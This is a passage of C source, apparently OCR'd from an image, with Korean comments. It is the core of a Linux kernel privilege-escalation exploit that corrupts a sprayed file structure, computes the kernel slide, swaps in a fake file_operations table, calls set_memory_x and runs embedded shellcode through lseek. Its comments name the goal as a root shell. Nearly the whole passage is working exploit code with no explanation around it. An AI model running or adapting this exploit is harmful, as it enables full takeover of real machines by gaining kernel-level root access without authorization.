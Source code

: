 ```c
            file_base = ax[(i + 0x30) >> 3] - 0x30;
            file_ax = &ax[i >> 3];
            kernel_slide = ax[(i + 0xb0) >> 3] - 0x2291700L;
            break;
        }
    }

    if (!file_base) {
        fprintf(stderr, "failed to locate file struct\n");
        exit(1);
    }

    printf("file_base = %lx, kernel_slide = %lx\n", file_base, kernel_slide);

    // FMODE_READ 비트를 끄고 read 실패 여부로 spray된 file 구조체 찾기
    file_ax[0x10 >> 3] &= ~(1L << 32);
    int findfd = -1;
    for (int i = 0; i < 0x100; i++) {
        if (read(fds[i], buf, 1) < 0) {
            perror("read check");
            findfd = fds[i];
            break;
        }
    }

    if (findfd == -1) {
        fprintf(stderr, "failed to identify correct fd\n");
        exit(1);
    }

    printf("found fd = %d\n", findfd);

    // fops를 가짜 file_operations로 덮어쓸 준비
    char backup[0x100];
    memcpy(backup, &file_ax[0x100 >> 3], 0x100);

    file_ax[0x108 >> 3] = 0x107b800L + kernel_slide; // set_memory_x 함수 주소
    file_ax[0xb0 >> 3] = file_base + 0x100L;         // 가짜 fops 주소 설정

    // set_memory_x 호출로 쉘코드 공간을 실행 가능하게 변경
    if (lseek(findfd, 1, SEEK_SET) < 0) {
        perror("lseek set_memory_x");
        exit(1);
    }

    // llseek을 쉘코드 주소로 덮어쓰기
    file_ax[0x108 >> 3] = file_base + 0x110L;

    const char shellcode[] = "SH\213\35\36\0\0\0H\215\273\200\311\240\2H\215\203\0\304\v\1\377\320H\211\307H\215\203p\301\v\1\377\320[\303AAAAAAAA";
    memcpy(&file_ax[0x110 >> 3], shellcode, sizeof(shellcode));
    memcpy((char *)&file_ax[0x110 >> 3] + sizeof(shellcode) - 9, &kernel_slide, 8);

    printf("executing shellcode!\n");

    // lseek을 다시 호출해 쉘코드 실행 트리거
    if (lseek(findfd, 1, SEEK_SET) < 0) {
        perror("lseek shellcode");
        exit(1);
    }

    // fops 복구 후 루트 쉘 실행
    file_ax[0xb0 >> 3] = 0x2291700L + kernel_slide;
```